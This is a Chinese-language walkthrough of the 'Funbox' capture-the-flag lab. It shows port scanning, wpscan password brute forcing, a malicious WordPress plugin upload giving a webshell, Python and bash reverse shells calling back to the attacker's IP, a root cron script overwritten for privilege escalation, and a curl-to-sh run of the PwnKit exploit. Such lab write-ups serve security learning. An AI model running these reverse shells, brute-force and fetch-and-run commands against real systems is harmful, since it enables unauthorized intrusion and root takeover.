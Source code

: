 # Funbox
## 0. 准备阶段
```
本机IP:
192.168.45.211
目标IP：
192.168.204.77
```
## 1. 信息收集
```
端口：
PORT     STATE    SERVICE
21/tcp   open     ftp
22/tcp   open     ssh
80/tcp   open     http
1111/tcp filtered lmsocialserver
33060/tcp open  mysqlx
服务器：
Apache httpd 2.4.41 ((Ubuntu))
```
## 2. 立足点获取
### 2.1 FTP
尝试匿名登陆，失败
```
ftp 192.168.204.77
Anonymous
```
### 2.2 SSH
弱口令，失败
```
ssh root@192.168.204.77
root root
root 123456
root abc123
```
### 2.3 HTTP
直接在浏览器输入 IP
```
192.168.204.77
```

然后就跳转到这个域名。但很卡
```
http://funbox.fritz.box/
```

于是想起昨天的改 `hosts` 文件，可以提高访问速度
```
sudo nano /etc/hosts
192.168.204.77 funbox.fritz.box
```

发现敏感目录
```
http://funbox.fritz.box/robots.txt

Disallow: /secret/
```

《你被骗了》
![[QQ_1724203818380.png]]

这里有个小彩蛋，提示了有两个 footstep
![[QQ_1724204109766.png]]
```
There are a minimum of 2 fast ways to get initial footstep. Root needs a bit more time.
```

然后发现了 wordpress 的默认配置页面
http://funbox.fritz.box/readme.html
![[QQ_1724204252910.png]]

直接上 `wpscan`，扫描插件和用户名，并且爆破密码
```shell
wpscan --url http://funbox.fritz.box/ -e ap,u  --passwords /usr/share/wordlists/rockyou.txt
```
![[QQ_1724204673743.png]]
```
admin iubire
```
还有个 admin ，但是一直扫不出来，看攻略的
## 3. 攻击

### 3.1 SSH 连接
猜测网站后台密码和 SSH 密码相同
```
ssh joe@192.168.204.77
12345
```

成功登录
![[QQ_1724207063250.png]]

但是被限制了，可能是 root 给 joe 故意配置的。（密码设这么简单，root 也是用心的，将 joe 给限制了）
![[QQ_1724207460405.png]]

使用以下命令，忽略配置文件，这样就可以去看其它目录了，而不是局限在当前目录
```shell
ssh joe@192.168.204.77 -t "bash --noprofile"
```

先在当前目录得到第一个 flag
![[QQ_1724208164131.png]]

这里也有小彩蛋，root 说 joe 的密码太简单了，想把他炒了
![[QQ_1724208134292.png]]

### 3.2 登陆 Wordpress 后台
 http://funbox.fritz.box/wp-admin/ 登陆后台
```
joe 12345
```

https://github.com/wetw0rk/malicious-wordpress-plugin 使用插件进行攻击
```
python wordpwn.py 192.168.45.211 Y
```

额，joe 没有权限看 plugin

后面进一步信息收集，发现 `wpscan` 爆出了 admin
```
admin iubire
```

使用 admin 的身份上传 plugin ，成功

感觉 `msf` 的 shell 很不稳定，所以还是利用上述的 vuln exp 附赠的 webshell 构造一个 reverse shell
```
http://funbox.fritz.box/wp-content/plugins/malicious/SWebTheme.php?cmd=which python3
```

reverse shell
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.211",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

连接成功
![[QQ_1724235431039.png]]

## 4. 提权
### 4.1 `.backup.sh`
看到 `.backup.sh`，可以意识到可能有个高权限用户在执行定时任务。（后面在 crontab 中好像没找到）
pspy64 用于监控进程，可以一直监控，可以避免 `ps aux | grep -i 'root' --color=auto` 只能查看当时执行进程的缺点。
所以准备将其上传

下载地址：
https://github.com/DominicBreuker/pspy/releases

这里注意了，目录 `/home/funny` ，其他用户是没有权限写的
![[QQ_1724237629410.png]]

换到 `/tmp` 下
![[QQ_1724237734713.png]]

下载
```shell
wget http://192.168.45.211/pspy64
```

加权限
```shell
chmod +x pspy64
```

执行
```shell
./pspy64
```

观察了一会儿，发现一个进程，之前没有，现在又冒出来，然后又冒出来，可能是定时任务之类的？
![[QQ_1724238128575.png]]
UID == 0 !!!，是 root 用户

于是本地构造一个 `.backup.sh`，准备上传
```sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.211/8888 0>&1
```

先把原来的删了。啊？！没有权限
![[QQ_1724238916725.png]]

确实是有写的权限，但是就是不能删除，`www-data` 被设置粘滞位了？？？
![[QQ_1724243019262.png]]

那就换成 joe 用户
```shell
ssh joe@192.168.208.77 -t "bash --noprofile"
```

然后用用户 joe 来 `nano .bash.sh`，改为 reverse shell (bash版)

本地开启监听

第一次连的是 funny，是因为之前的 `pspy64` 的结果中显示有 UID 非 0 的用户执行 `.backup.sh`，断开之后很快就连上我们想要的 root 了
![[QQ_1724239515113.png]]

提权成功，找到 flag
![[QQ_1724239831517.png]]

接着在 root 的 `mbox` 中找到了 root 设置定时任务的证据
![[QQ_1724239811257.png]]
### 4.2 `pkexec`
找到 SUID 位的文件
```shell
find / -perm -4000 -type f 2>/dev/null
```

这里利用 `pkexec`，可以理解为更适用于 GUI 程序的提权
![[QQ_1724240108329.png]]
![[QQ_1724240165612.png]]

可是需要 root 的密码
![[QQ_1724240296024.png]]

于是上网搜索 `pkexec exploit github`
https://github.com/ly4k/PwnKit
```shell
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

在 `/home/funny` 下没有成功，但是换到 joe 自己的文件夹就成功了，这点需要注意
![[QQ_1724240778282.png]]